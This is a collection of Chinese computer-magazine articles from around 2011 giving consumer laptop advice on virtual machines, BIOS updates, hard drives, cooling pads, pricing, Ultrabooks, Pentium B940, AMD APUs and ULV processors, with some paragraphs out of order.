虚拟机原本是服务器上的专业应用，放到普通用户的笔记本上肯定要有更人性化的功能才行。PD7在这些方面就做得不错，下面介绍一些常用的。

### 三种呈现方式

默认方式就是窗口模式，安装好的Windows就是一个普通软件窗口，我们可以用鼠标随意调整它的大小，但如果桌面上窗口太多就有些碍手碍脚了，这时你可以试一下它的全屏模式，点一下窗口右上角的箭头即可进入，这个“全屏模式”和Windows里所说的全屏可不一样，它其实是新建了一个独立的桌面，用三根手指在触摸板上划动就能在Windows桌面和MAC OS X主桌面之间切换，互不干扰。如果要退出，把鼠标移到屏幕顶部就会出现相应菜单。

第二种则更加神奇了，叫做融合(coherence)，开启的方法为：在“查看”菜单中选择“进入融合(coherence)”，在这个模式下Windows的桌面和任务栏都不见了，各种Windows软件的窗口都“跳”了出来，与MAC OS X系统的窗口共存，就像MAC OS X系统的原生软件一样，PD7还把Windows里面的程序列表都集中在了MAC OS X的Launchpad中，方便使用，免得每次都得进入Windows的开始菜单里找。

### 文件访问

虚拟机本身是存放在MAC OS X分区里面的一个镜像，它和MAC OS X之间传输文件有两种方法。一是直接拖拽，用鼠标选定文件在MAC OS X和Windows的桌面之间拖拽就完成了。二是通过虚拟的网络驱动器，虚拟机窗口的右下角会提示安装Parallels Tools，安装好之后在桌面上会出现一个盘符，这就是笔记本的硬盘，你可以随意在里面复制粘贴文件。

### 硬件要求

虚拟机对硬件的要求主要是内存、CPU则要求不高，笔者的2010年款MacBook Pro搭配6GB内存，运行虚拟机就已经非常流畅，而且空闲内存有2GB多。但如果只有4GB的话就会有些卡了，条件允许的话推荐使用8GB。此外，建议在虚拟机中使用32位的Windows，因为64位的Windows会占用更多的内存。虚拟机的硬件参数还有更多的选项，但一般选默认的即可，现在使用苹果笔记本的人越来越多，MAC系统的软件也会越来越多，目前QQ、迅雷，以及PPS等很多我们熟悉的Windows软件都有了MAC版。相信在未来虚拟机的存在只是为了极少数的软件，我们需要打开虚拟机的机会也会越来越少。 (文/飞飞)

# 笔记本想“永葆青春” 升级BIOS少不了

都是一个品牌型号的笔记本，为什么早买的机器没有新出的机器稳定呢？这是因为最新批次的笔记本往往会预装最新版本的BIOS，不仅修复了已知的Bug还可能加入更多新的功能。
想让笔记本永远保持最佳状态，学习升级BIOS自是必不可少的功课。

目前很多厂商都提供了在Windows系统下升级BIOS的程序，操作简单且几乎没有任何危险性。下面，笔者就以ACER的4830TG笔记本为例，简单介绍一下升级BIOS的步骤。
首先需要到ACER官网下载笔记本最新的BIOS文件（下载地址：http://www.acer.com.cn/ac/zh/CN/content/drivers），根据自己笔记本的具体型号，依次选择产品系列→产品类型→产品型号，要注意型号最后的后缀，比如4830TG一定要选择“TG”为结尾的，不要选择4830/4830T/4830G。点击列表顶部的“BIOS”选项卡就能下载与这款产品有关的所有BIOS了。
目前4830TG最新的BIOS版本号为V1.05，改进了一些Bug，加入了对“Alps Touch Pad”的支持，点击最左侧的箭头就能下载BIOS升级文件。将下载的文件解压缩，你会看到DOS和Windows两个文件夹，前者需要在DOS环境下运行，后者则是我们所需要的，即在Windows系统环境下直接升级BIOS的文件。运行Windows文件夹内的“P4LJ0105.exe”，接下来会弹出自动升级BIOS的界面，此时不要操作笔记本，大概一分钟左右就能升级完成。整个升级过程非常简单，只要中途不断电基本没有危险。如果你用的是ACER其它型号的笔记本，也建议自行升级一下BIOS，方法都是通用的。

小提示：如何查询当前BIOS版本
最简单的方法就是安装鲁大师一类的监测软件，在“硬件检测→主板信息”的菜单中就能查询笔记本主板当前的BIOS版本号了。

# 有容乃大 笔记本硬盘如何选

如今的游戏和电影越来越大，而很多笔记本仅标配了320GB硬盘，有限的空间很容易就会被这些大胃口的数据消耗殆尽。俗话说“有容乃大”，想让笔记本保存更多的资料，升级更大容量的硬盘自是首选。那么，笔记本硬盘又该如何挑选呢？
笔记本虽然没有台式机那么容易升级CPU，但换个硬盘和内存还是相当容易的。与升级过程相比，如何选购笔记本硬盘才是重头戏。

## 笔记本硬盘归四类

笔记本硬盘基本可以分为四个类别：5400转（rpm），最标准的笔记本硬盘，价格实惠，缓存容量通常为8MB；7200转（rpm），高速硬盘，价格稍高，但读取速度有明显提升，缓存16MB；混合硬盘（HHD），硬盘内嵌入了闪存芯片，加快硬盘读写速度，缓存32MB；固态硬盘（SSD），以闪存作为存储介质，摆脱物理的机械结构，稳定、高速、耐冲击。它们之间性能的差距请参考表1。

| PCMark Vantage HDD子项成绩 | 3500 | 5000 | 7000 | 21500 |
| :--- | :--- | :--- | :--- | :--- |
| HDTune平均传输速率 | 65MB/s | 83MB/s | 85 MB/s | 180MB/s |
| 推荐型号 | 西数WD5000BPVT（500GB） | 希捷ST9500420AS（500GB） | 希捷ST95005620AS（500GB） | 金士顿SV100S2（64GB） |
| 优点 | 便宜实惠 | 性能提升明显 | 越用越快 | 堪称完美 |
| 缺点 | 性能一般 | 增加一定发热量 | 价格稍高 | 贵，容量小 |
| 参考价格 | 369元 | 519元 | 769元 | 769元 |

## 哪种硬盘适合你

如果你的预算很紧张，选择5400rpm普通硬盘即可，价格便宜量又足。如果你很在意性能，当硬盘转速达到7200rpm时对整体的性能提升非常有益，速度明显改善。如果你预算足够，还可以考虑混合硬盘，价格虽然又贵了一点，但却能明显提升开机、程序读取的时间，算是SSD硬盘的廉价替代品。如果你的笔记本有两个硬盘位，或者光驱位长期闲置，则可以考虑入手SSD固态硬盘作为第二块硬盘（SSD硬盘容量太小，仅适合组建双硬盘环境），用于安装操作系统。需要注意的是，2.5英寸笔记本硬盘的标准厚度为9.5mm或12.5mm，但很多轻薄笔记本仅支持9.5mm的标准，而现在不少750GB/1TB的硬盘厚度却为12.5mm标准，无法正常安装。所以在选购大容量硬盘时要以自己笔记本所支持的规格为准。

小提示：
以希捷混合硬盘为例，就是在7200rpm硬盘的基础上加入了一颗4GB镁光闪存颗粒，其性能与其它7200rpm硬盘相似，但却支持Adaptive Memory自适应性存储技术，可以实时对硬盘文件的使用频率进行监测和分析，并把使用频率较高的文件复制到闪存中，以便快速进行重新调用。简单来说，混合硬盘是越用越快，玩某个游戏，第一次读取用60s，第二次可能就55s，第三次就只用45s了。

# 让笔记本更“冷静” CFan教你挑选散热底座

笔记本限于内部结构的制约，面对大型3D游戏总是过于“热情”。虽说炎炎夏日即将过去，但改善笔记本散热的神经可千万不要松懈，要知道在严冬时节笔记本被烧坏的事例也并不鲜见。想让笔记本更“冷静”，散热底座无疑是最佳的选择。但面对形形色色的散热底座，你知道如何才能锁定你最需要的产品吗？

## 结构影响远大于材质

常见的散热底座多以铝合金、冷轧钢板、工程塑料材质为主，乍看下似乎导热性能最强的铝合金才是当仁不让的选择。实际上，笔记本底部只有凸起的防滑脚垫与散热底座表面接触，散热底座本身并不能帮笔记本散热，因此在选购散热底座时不必一味地追求高价的金属材质，只要表面摩擦系数够，笔记本放在上面不至于滑动即可。对散热底座来说，结构的合理性才是影响散热效果的关键。
散热底座可以让笔记本倾斜以增加底部的空间，依靠底座内部的风扇向笔记本底部的散热孔送风，加强笔记本内部的空气流通从而提升散热效率。因此在散热底座与笔记本接触的部分设置风扇，并在底座的表面布满散热小孔还是很有必要的。有些散热底座的表面就是一面纯平的金属，通风效果大打折扣，还不如在笔记本“屁股”下垫两本书呢（不想花钱的用户可用书将笔记本底部后端垫起，增高散热孔与桌面间的距离，同样可以提升空气流通效果）。在选择散热底座时，一定要挑选和自己笔记本尺寸接近的产品，否则会影响最终的散热效果。

小提示：
如果你喜欢用外接键盘操作笔记本，还可以选择支持大角度调节的“书架式”散热底座，方便将其当作笔记本支架使用，使笔记本屏幕位置变得更高以符合人体工程学需要，获得更舒适的使用姿势和视觉效果。

## 风扇选择有讲究

风扇很有必要，但并非越多越好。笔者建议选择只有一个大尺寸风扇的产品（最好在14cm以上），因为如果底座上配有2~3颗小风扇，想达到大风扇的风量势必要提高每个小风扇的转速，但不要忘记，转速和噪音成正比，相信你不希望被几个散热风扇吵得无法安心办公或玩游戏吧？而大风扇只需很低的转速就能实现大风量，相对而言更为静音。此外，由于每款笔记本底部的散热孔位置布局都是不同的，而大尺寸风扇的覆盖范围很广，很容易就能“照顾”到这些散热孔，但小风扇就很难保证了。

小提示：
目前市场上已经出现可以自由移动风扇位置的散热底座，我们可以根据自己笔记本底部散热孔的位置，改变底座风扇的位置，让其直接对准最需要加强通风的散热孔即可，比如对准笔记本内部散热风扇位置的散热孔，以及放置硬盘位置的散热孔，让底座风扇为这两个位置送凉风可以起到最佳的散热效果。

## 让底座拓展更多功能

笔记本通常仅标配3组左右的USB接口，如果你觉得数量太少，则可以选择带USB Hub功能散热底座，一方面可以辅助笔记本散热，另一方面还能扩展更多的USB接口。但需要注意的是，散热底座上的USB接口供电受限，大都无法识别移动硬盘。此外，目前很多高端散热底座都附带了音响功能，可以提供不错的音效体验，有这方面需求的用户可以特别关注一下。

### 酷冷至尊旋翼大众版
由金属冲压金属网、工程塑料和橡胶为主要材料构成，支持最大17英寸的笔记本。这个底座配备一颗14cm口径静音风扇，风扇噪音在13dBA左右，能为用户提供6.5~45度仰角，根据实际需要还可在这5种角度之间调节。

### 酷冷至尊NotePal U2
这款散热底座支持最大15英寸的笔记本，通过表面的橡胶垫来固定笔记本，不易打滑。其最大的特色就是采用了独特的可移动双风扇设计，更易于安装、调整，可有针对性的移动到笔记本最热的地方。

### 九州风神玄风轮旗舰版
这款底座支持最大15英寸笔记本，配备了一颗20cm的大风量风扇，吹风式空间设计，大量的空隙有助于风量的自由流动，也有助于热量的尽快散热而不会累积。支持10cm和20cm两种高度的倾角调节。

# 雾里探花 什么样的笔记本最适合你

都是i3-2310M和GT540M显卡的组合，为什么A款笔记本只卖3999元，但B款笔记本却高达6000元呢？这数千元的价差到底跑到了哪里？面对配置相近的海量产品，究竟多少钱的笔记本才最适合你？

健圣的第一台笔记本是2006年购入的ThinkPad T60 (港行D64)，11600元的大元相当于俺的数月工资。而同配置的行货型号价格将近18000元。如今，同样是ThinkPad高端的T系列，与当年T60 D64类似定位的行货型号也不过7000元上下，价格的“狂泻”也代表了笔记本当前发展的缩影：短短几年间，笔记本价格持续崩盘，如果说当年10000元价位的笔记本性能才说得过去，那么如今4000元的笔记本都已经出现了性能过剩的趋势。那么，在4000元笔记本性能都够用的情况下，高价本又有什么值得关注的地方？到底多少钱的笔记本才适合你？

## 配置相近 高低有别

低价本=低性能？这是典型的“价格歧视”。仔细观摩一下4000元左右笔记本的配置单，不乏i5-2410M+GT525M或i3-2310M+GT540M组合的产品。如果说这类配置都无法满足你，那么你还是选择DIY吧，即便价格再翻一倍（8000元）的笔记本在性能上也不会较前者好多少。可以说，今天的低价与高价笔记本间的主要差别并不在性能，而是在功能与设计上：比如金属拉丝材质的外观、品牌扬声器、各种音效认证、更长的续航时间、更轻薄的设计……这些卖点往往都是高价笔记本的专利，从而与低价笔记本拉开档次。

我们可以将现在的笔记本看作是底盘（芯片组）、发动机（CPU）、涡轮增压器（显卡）已经标准化的汽车市场。在采用相同部件的情况下，奇瑞和奔驰都能跑出一样的速度（性能相似）；但我们不能指望二者还有相同的品质（结构设计）、内饰（外观）和功能，毕竟价格在那里摆着呢。此外，即便同样是奔驰，旗下还有S、E、C等车型系列，根据不同的定位同样需要取舍一些东西。而这，就是配置相同的笔记本之间为什么存在动辄数千元价差的原因。

| 型号 | 规格差异 | 特色功能 |
| :--- | :--- | :--- |
| ACER 4830TG | i5-2410M + 2GB + 640GB + GT540M | 8小时续航时间 |
| 索尼VPC CA17EC/P | i5-2410M + 2GB + 500GB + HD6630M | 个性炫目的外观 |
| 华硕A43EI263SV-SL | i7-2630QM + 4GB + 640GB + GT540M | 四核SNB处理器 |

## 理性消费 各取所需

如果问你：“相似配置和价位的宝马、奥迪和奔驰轿车摆在面前，你会选谁？”相信绝大多数用户会根据自己的喜好做出选择。笔记本领域又何尝不是如此？以表1中三款6000元价位左右的笔记本为例，如果你经常在没有电源插座的环境使用笔记本，拥有8小时续航能力的ACER 4830TG自是首选；如果你喜欢时尚炫目的外观，索尼VPCCA17EC/P不会让你失望；如果你想体验更强的性能，采用i7-2630QM四核处理器的华硕A43EI263SV-SL则更具优势。

| 型号 | 规格差异 | 性能差别 | 价格 |
| :--- | :--- | :--- | :--- |
| 联想Y470n-ITH | i3-2310M (双核, 2.1GHz) | 100% | 4999元 |
| 联想Y470n-IFI | i5-2410M (双核, 2.3~2.9GHz) | 110% | 5699元 |
| 联想Y470n-ISE | i7-2630QM (四核, 2.0~2.9GHz) | 115% | 6899元 |

再问你一个问题：“同样是大众帕萨特，你会选择1.8T、2.0T还是3.0L排量的？”估计大家也会先摸摸口袋才能回答这个问题。以联想Y470N系列为例，在4GB+750GB+GT550M这一基础配置不变的前提下，子型号的差别就剩下CPU与价格了（见表2）。接下来的问题就简单了，摸摸钱袋子，看看它能否认同1900元换15%左右的性能提升？反正健圣的钱包表示“鸭梨”很大。如果让我选肯定是4999元的版本，何况i3-2310M性能已经足够我上班工作和平时玩的游戏所需了。

总之，在“摩尔定律”的鞭策下，笔记本领域的CPU和显卡技术每年都会有了一次明显的革新。对于非发烧游戏玩家和专业制图等领域的用户而言，如今的笔记本已经进入了性能过剩的状态。在这个大环境下，你首先要考虑的是这款笔记本的外观设计是否中意，接下来再根据自己的需要，对特色功能加以取舍，不要为不需要的功能和性能提升埋单，将每一分钱都花在刀刃上。


# MacBook Air的模仿者 Ultrabook笔记本值得期待吗

在今年6月的台北国际电脑展上英特尔提出了“Ultrabook”概念，为笔记本规划出了一条通往“性能级”轻薄领域的大道。那么，“Ultrabook”与早前的“CULV”有什么区别，到底值不值得我们期待呢？

## 借 Ultrabook 重振雄风

从iPhone开始，苹果重新诠释了触控的体验。随后的iPad更是将触控的乐趣发挥到了极致。如今，这种简单易用的大屏便携终端（也包括Android阵营的各种“xPad”）已经开始蚕食起上网本甚至传统笔记本市场的份额。凭借iPhone、iPad的一飞冲天，苹果在业内的影响力已经无人能敌。借着这股气势，随后而来的MacBook Air表现更为抢眼：除了性能更强以外，起始售价更是低至999美元（国内起价为7698元），使这种超轻薄且强大的产品重新回归到普通用户的视线中。面对越加强势的苹果，以及平板电脑和ARM阵营（99%的xPad都采用了ARM架构处理器，而微软也将从Windows 8开始加入对ARM的支持）对笔记本市场的挑战，英特尔急需亮出新的“杀手锏”。而“Ultrabook”，就是英特尔联合众多OEM厂商共同打造的新形态产品，旨在削弱苹果强大的竞争力，同时为进入平稳期的笔记本市场注入一针强心剂。

> **小提示：Ultrabook是什么**
不用多加解释，看一看苹果最新的MacBook Air，它就是UltraBook的最佳范本。用英特尔的话说，Ultrabook必须具备21mm（13英寸以上）或18mm（11英寸以内）极致轻薄的外观，同时还要具备主流的价格、轻薄的体积、提供快速响应的、安全的体验和全天候的待机。与当年英特尔力推的CULV笔记本相比，UltraBook对产品设计的要求更为严格，同时又不能因轻薄牺牲性能，它既可作为平板电脑、又可作为PC机来使用。为了更好地推广UltraBook，英特尔还计划拿出3亿美元组建Ultrabook Fund基金会，激励合作伙伴不断培育和完善这种新形态的笔记本，最终打造一套完整的生态系统。

从英特尔的计划蓝图来看，Ultrabook将随平台的升级实现“三级跳”：年内我们所见到的Ultrabook都为第一代产品，搭载32nm制程的Sandy Bridge处理器；2012年随22nm的“Ivy Bridge”晋级为第二代产品；等到2013年的“Haswell”发布，Ultrabook也将进化为趋于完美的第三代产品，TDP降低到当前水平的一半，同时又具备异常强悍的性能表现。

## 性能已经不是问题

在我们的印象中，轻薄往往和性能成反比，但对于Ultrabook来说，我们基本可以摆脱这种顾虑。就拿第一代Ultrabook来说，它们将搭载酷睿i3-2357M（1.3GHz）或i5-2537M（1.4GHz）等超低压版的SNB处理器，虽然主频略低，但凭藉先进的架构与集成的核芯显卡，其性能仍能达到上一代酷睿i处理器与入门级别独显组合（如i3-370M+G310M）的笔记本的水准，满足除大型3D游戏与复杂运算以外的常规办公娱乐需求已经不是问题。

## 价格扼住 Ultrabook 咽喉

看似万事俱备只欠东风，但Ultrabook依旧存在很难逾越的鸿沟，没错，这就是价格。据来自OEM厂商的消息，英特尔已经给出了一份Ultrabook物料成本清单，其中21mm的机型物料成本在475~650美元，而18mm的机型则达到了493~710美元。如果再算上产品研发、推广以及预留给经销商的利润，Ultrabook的最终价格很难控制到英特尔所规定的1000美元以内。但不要忘记，苹果MacBook Air的起价仅有999美元，如果其它品牌的Ultrabook无法取得价格优势的话，消费者凭什么为之埋单呢？这就好像当前的平板电脑市场，iPad2一枝独大，苹果以自己的影响力拿到了最便宜、最优秀的物料成本，在使用同级别的物料下其它品牌产品的制造成本可能都要比iPad销售价格高。

## 难以摆脱 Air 的影子

目前Ultrabook给人的感觉就是“MacBook Air杀手”。无论是尺寸厚度的标准，还是英特尔计划选用的铝镁合金材质，在这些条条框框的包装下Ultrabook酷似Air的“姊妹版”。但苹果掌握着MacBook Air一体成型工艺的产能，其他厂商即便选用了相同的材质也难以保证有相同的质感与品质。由于铝镁合金材料供货吃紧，业内已经有人传出Ultrabook或改用玻璃纤维的消息。很多OEM厂商也都希望英特尔可以降低Ultrabook组件成本，并增加营销补贴，否则很难在999美元以内研发出足以匹敌MacBook Air的11英寸产品。DIGITIMES Research资深分析师兼主任简佩萍认为：“Ultrabook如一味向着MacBook Air发展，将面临高成本及商业模式等问题。Ultrabook如果能摆脱MacBook Air的影子，英特尔再适当放宽限制并降低ULV处理器的价格，这种同时具备轻薄与性能特性的产品还是大有作为的。

## 向人人都能拥有的目标迈进

“人人早该拥有的先进笔记本电脑，现在人人都能拥有”，这是苹果对MacBook Air的广告语。作为昔日CULV的进化版，Ultrabook的确是人人早该拥有的先进笔记本电脑，但真的是人人都能拥有吗？这还得看英特尔和OEM厂商最终的答卷。总之，如果Ultrabook真的要卖999美元，笔者是无法拥有的，而且即使有能力拥有，我又为什么不去选择Air呢？当然，如果一款足以媲美Air的Ultrabook只卖5000元人民币左右，情况就大不相同了。无论如何，除了更强的性能之外，轻薄同样是笔记本的发展方向，而Ultrabook概念则是为这种发展提供了一套标准和流程。对我们消费者而言，如果只需增加一点预算，就能购买到更轻、更薄、电池时间更久，但性能却同样够用的产品，何乐而不为呢？


# 贵有酷睿 廉选奔腾 低价笔记本又有新选择

在酷睿满天飞的今天，你还记得“奔腾”这个品牌吗？如今奔腾双核也终于赶上了Sandy Bridge的末班车，市面上出现了很多搭载新奔腾双核B940处理器的新品。那么，这个新奔腾的规格到底如何，值不值得选择呢？

HD显卡。

- **小提示**：对于选择B940处理器并没有额外独立显卡的机器，笔者建议大家另购一条2GB内存，与标配的2GB内存组建双内存模式，这样才能让CPU内部集成的核芯显卡发挥最大的效能（3Dmark06可超过4000分），游戏体验更流畅。

- **小提示**：除了B940以外，SNB架构的奔腾双核还有一款主频为2.1GHz的B950。此外，移动版赛扬也即将进入SNB时代。就目前掌握的资料来看，SNB赛扬将以B800/B700系列命名，与SNB奔腾双核相比，新赛扬集成的核芯显卡换成了HD2000，而定位最低的B700系列仅为单核心。

## 老工艺 新架构

Sandy Bridge (下文简称SNB) 酷睿处理器已经上市大半年了，如今终于轮到定位稍低的奔腾双核了。SNB架构的奔腾双核同样内建强大的HD3000核芯显卡，支持快速视频同步技术，保证了玩游戏和视频转码时的效率。但为了和SNB酷睿保持差距，新奔腾双核将三级缓存降低到2MB，同时也取消了AVX指令集、超线程、InTRU 3D立体输出、WIDI无线输出和睿频加速等技术。

别看B940的主频只有2.0GHz，但在新架构的支撑下，性能仍可轻松超越主频和三级缓存更高的上一代P6200奔腾双核处理器。在标配单条2GB内存的情况下，B940在3Dmark06中可以取得3000分左右的成绩，已经远远超过了P6200所集成的GMA

## 主流性能向 3000 元看齐

新奔腾双核B940的出现，为低端笔记本注入了一阵强心剂。在酷睿i3-2310M成本较高，而P6200集成显卡不给力的情况下，B940刚好弥补了二者之间的空缺。即便没有独立显卡的帮忙，核芯显卡也足够运行《星际争霸2》一类的3D游戏了。因此，各笔记本厂商都开始用B940武装起3000元价位左右的产品线，让这个价格段的产品在使用体验上得以大幅提升，整体性能甚至可以超过P6200+G310M独显这种组合的配置。如果你的预算只有3000元出头，但又有着较强的娱乐体验需求，不妨将目光投向这个奔腾家族的新品吧。

## 超值新奔腾笔记本

- **Gateway NV47H24c**
基本配置：
14英寸+B940+2GB+320GB+HD3000集显
NV47H24c是目前最便宜的基于B940设计的笔记本之一。别看价格只有2999元，但整体的做工设计还是相当不错的。主板提供2组内存插槽最高可以扩充到8GB，2.2kg的重量在14英寸笔记本中也算是相对轻盈的选手。

- **ThinkPad E420 (1141-A15)**
基本配置：
14英寸+B940+2GB+320GB+HD3000集显
ThinkPad笔记本一向不便宜，但这回搭载B940处理器的E420却亮出非常超值的价格。虽然硬件规格上缺乏亮点，但E420的键盘手感、散热控制以及整体结构的合理性方面却是同价位产品难以超越的。

- **ACER 4750ZG-B942G32Mnkk**
基本配置：
14英寸+B940+2GB+320GB+HD3000集显/GT520M独显
如果你觉得HD3000还是不够给力，这款ACER 4750ZG在核芯显卡的基础上还加入了独立的GT520M显卡，并支持双显卡自动切换技术，在游戏性能方面的表现十分抢眼，而3299元的价格也算是超值之选。

| 参数对比 | 酷睿i3-2310M | 奔腾双核B940 | 奔腾双核P6200 |
| :--- | :--- | :--- | :--- |
| 核心架构 | Sandy Bridge | Sandy Bridge | Arrandale |
| 制程/TDP | 32nm/35W | 32nm/35W | 32nm/35W |
| 主频 | 2.1GHz | 2.0GHz | 2.13GHz |
| 三级缓存 | 3MB | 2MB | 3MB |
| 集成显卡 | HD3000 | HD3000 | GMA HD |
| SSE 4.X指令集 | 支持 | 支持 | 不支持 |
| AVX指令集 | 支持 | 不支持 | 不支持 |
| 超线程技术 | 支持 | 不支持 | 不支持 |
| 睿频加速技术 | 不支持 | 不支持 | 不支持 |
| 快速视频同步技术 | 支持 | 支持 | 不支持 |

# 双内存才给力 教你用好笔记本的APU

小李最近新买了一部AMD “Sabine”平台笔记本，使用一段时间后才发现Llano APU集成的HD6520G显卡并没有想象中那么“给力”。那么，到底是什么原因限制了HD6520G显卡性能的发挥呢？

- **小知识：“Sabine”是什么？**
“Sabine”平台笔记本采用的是AMD A系列APU（内部代号Llano），它采用了32nm工艺制程，并且采用了CPU和GPU完全融为一体的单芯片设计，CPU与GPU可以实现相互协同，能够同时执行串行计算和并行计算，为大量应用提供加速。

这类独立显卡了。在玩《生化危机5》时，4GB内存的速度要领先2GB内存15fps，同时在双显卡交火状态也会有明显的速度提升。可见，如果你购买的Sabine平台笔记本仅标配单条2GB内存，一定不要吝啬你的银子（其实也不贵，现在2GB DDR3 1333内存已不足百元），升级到双内存会为你带来更震撼的性能体验。

- **小提示**：
双内存还可明显改善双显卡混合交火的性能。以《生化危机5》游戏为例，在2GB内存状态，双显卡的性能甚至不及单独显卡，但当升级到4GB内存以后，双显卡状态的速度就明显领先单独显卡模式了。打开双显卡交火模式也很简单，在显卡控制中心左侧的列表中展开“性能”一栏，在“AMD CrossFire”菜单中勾选“启动CrossFire”即可。

属性”，在显卡控制中心左侧的列表中展开“预设”菜单，你会看到“电影、空中模式、省电、网络浏览和游戏”五种预设方案。比如“电影”模式会自动调高屏幕亮度，将CPU最高主频限定在1GHz，并以集显模式播放电影以节省电力。根据当前的应用来选择合适的预设方案，可以起到最佳的延长电池续航时间的作用。
在右下角的通知栏有一个红点小图标，鼠标右键点击这个图标，在“调用预设”一栏中就能直接切换预设方案而无需进入显卡控制中心。如果你对某项预设方案中设定的CPU主频不满意，在显卡控制中心左侧的列表中展开“性能”一栏，在“CPU功率”界面就能自定义CPU在使用电池或外接电源时的主频范围了。

## 双通道内存 集成显卡核动力

小李的笔记本搭载了AMD A6-3400M处理器（四核，1.4GHz），内部集成了HD6520G显卡，外部还配有独立的HD6650M显卡。可惜这台笔记本仅标配2GB内存，此时HD6520G集成显卡的表现比较一般。3DMark06总分和3DMarkVantage GPU项成绩分别为3874/8690，性能仅勉强超过SNB的核芯显卡。但当升级到2条2GB内存后，这两个测试的分数已经达到了5559/12566，此时成绩已经大幅超越SNB的核芯显卡，甚至足以秒杀GT520M和HD6470

## 想省电 预设电源方案很给力

虽然Win7系统预设了很多电源管理方案，比如“平衡、节能、高性能”等等，但这些通用的电源方案并不一定适合所有的笔记本，而且想更改设置还需点击通知栏的电池图标进入电源选项。如果你也觉得上述操作太麻烦，不妨尝试一下AMD显卡控制中心预设的电源方案吧。在桌面点击鼠标右键进入“显示卡

## 玩游戏 用快捷键才方便

笔者不喜欢在桌面放太多的快捷方式，以前玩某个游戏都是通过开始菜单或者进入一层层文件夹再运行启动程序。而在搭载APU的笔记本上，通过显卡的控制中心就能为某个游戏设定独立的快捷键启动方式。以时下热门的《Dota》为例，展开显卡控制中心的“预设”菜单，点击“添加预设”，在弹出的窗口中就能自定义新的预设方案。想通过这个预设方案启动《Dota》，只需在“热键”一栏中设定修改器键组合。笔者设置为“Alt+F12”，以后只需按下这两个按键，《魔兽争霸3》就自动运行了，非常简单吧？

- **小提示：杀鸡焉用牛刀**
当搭配2×2GB内存时，A6-3400M集成的HD6520G已经非常强悍了。玩类似《Dota》级别的游戏如果还用独立显卡会造就性能与功耗双重浪费。因此像《Dota》、《穿越火线》这类早期3D游戏，我们可以在“可切换显示卡”中手动设定它们仅以“省电”模式运行。

| 测试项目 | 2GB集显 | 4GB集显 | 2GB双显卡 | 4GB双显卡 |
| :--- | :--- | :--- | :--- | :--- |
| 3DMark06总成绩 | 3874 | 5559 | 6828 | 6862 |
| 3DMarkVantage GPU项成绩 | 8690 | 12566 | 18642 | 21187 |
| 3DMark11 | P1205 | P1443 | P1484 | P1507 |

| 游戏测试 | 2GB集显 | 2GB独显 | 2GB双显卡 | 4GB独显 | 4GB集显 | 4GB双显卡 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 生化危机5 | 24.8fps | 45.9fps | 41.9fps | 48.3fps | 39.2fps | 51.4fps |## 笔记本若想轻薄全靠它
### 英特尔全新ULV处理器面面观

喜欢MacBook Air吗？如今很多媲美Air的“Ultrabook”新品即将上市，这意味着我们在超轻薄笔记本上也能获得强悍的性能体验，同时入手成本相较以前的类似轻薄产品也会大幅降低。那么，你知道支撑“Ultrabook”性能的CPU都有哪些吗？它们与常见的笔记本CPU又有哪些区别呢？

从外观用料、机身厚度，再到硬件平台，英特尔都对“Ultrabook”设立了严格的标准，而本文讨论的重点则是Ultrabook的“心脏”，Sandy Bridge架构的超低电压版处理器。Ultrabook是什么？它值得期待吗？如果你也抱有类似问题，请参考本刊2011年17期P84页《MacBook Air的模仿者？Ultrabook笔记本值得期待吗？》这篇文章。

Ultrabook将随平台的升级实现“三级跳”：第一代产品搭载32nm制程的Sandy Bridge处理器；2012年随22nm的“Ivy Bridge”晋级为第二代产品；等到2013年的“Haswell”发布，Ultrabook也将进化为趋于完美的第三代产品。

## 教你认识 ULV 处理器

SNB处理器老早就发布了，为什么不见超低电压版（Ultra Low Voltage，简称ULV）的处理器？其实英特尔发布的SNB处理器中早已包含了TDP功耗仅有25W甚至17W的ULV版，只是在命名上与以前有了差别（见表1）。简单来说，英特尔上一代笔记本平台“Calpella”是通过后缀来区分CPU的版本，比如M代表标准版，LM为低压版，UM是超低电压版。到了“Huron River”平台后，英特尔则以倒数第二位数字区分CPU的版本，比如ix-xxx0M为标准版，ix-xxx9M为低压版，ix-xxx7M则是超低电压版。

### 小提示：ULV并非Ultrabook的专利

虽然英特尔钦点SNB架构的ULV作为Ultrabook的御用处理器，但这不妨碍笔记本厂商将其武装在普通的轻薄笔记本上，比如ThinkPad的E120、X121和X220i系列的新品就有不少搭载ULV处理器的型号。虽然这类产品没有Ultrabook那般极致的轻薄，但在价格方面则更为亲民。

## 牺牲主频换节能

与笔记本上常见的i3-2310M一类的标准版处理器相比，ULV处理器通过降低主频的方法实现了更低的TDP功耗，从而降低发热量，提升笔记本的续航时间。像Ultrabook和一些超轻薄的笔记本，其内部用于安置散热模块的空间不大，而且也很难塞进大容量锂电池，ULV处理器的低发热与低功耗的优势刚好可以弥补这些缺陷。SNB架构的ULV处理器的TDP功耗只有17W，还不到标准电压处理器的一半，在相同的使用环境下至少可以提升20%~30%的电池使用时间，而且无需厚实的金属散热片，可以帮助笔记本厂商开发出更轻薄的产品。

别看ULV处理器的主频大幅缩水，但SNB架构的诸多优势还是被继承了下来：酷睿系列的ULV处理器同样集成了强劲的HD3000核芯显卡，支持“Quick Sync Video”（快速视频同步技术，视频转码比NVIDIA和AMD的独显还要快）、“Wireless Display”（无线显示技术，能让笔记本与电视机、投影仪等显示终端无线连接）以及“Clear Video HD”（高清硬件解码，看1080P无任何压力）等技术，整体实力还是相当强悍的。需要注意的是，SNB架构的ULV奔腾和ULV赛扬处理器并不支持上述新技术，而且显卡也并非全新的核芯显卡，性能上会有一定的缩水。

表格“表1：英特尔两代ULV处理器对比”详细列出了Huron River（Sandy Bridge架构）和Calpella（Arrandale架构）两个平台在标准版、低压版、超低电压版下的CPU型号示例及TDP功耗对比。

| 平台名称 | Huron River | Calpella |
| --- | --- | --- |
| 架构名称 | Sandy Bridge | Arrandale |
| 标准版 | ix-xxx0M (i3-2310M) | ix-xxxM (i3-380M) |
| 低压版 | ix-xxx9M (i7-2629M) | ix-xxxLM (i7-640LM) |
| 超低电压版 | ix-xxx7M (i5-2537M) | ix-xxxUM (i5-520UM) |
| TDP（标准/低压/超低压） | 35W/25W/17W | 35W/25W/18W |

| 型号 | 主频 | 睿频 | 内核数 | 三级缓存 | TDP | GPU | GPU频率 | Quick Sync Video | Intel Wireless Display | Clear Video HD |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 赛扬C847 | 1.1GHz | N | 2 | 2MB | 17W | HD graphic | 350MHz-800MHz | N | N | N |
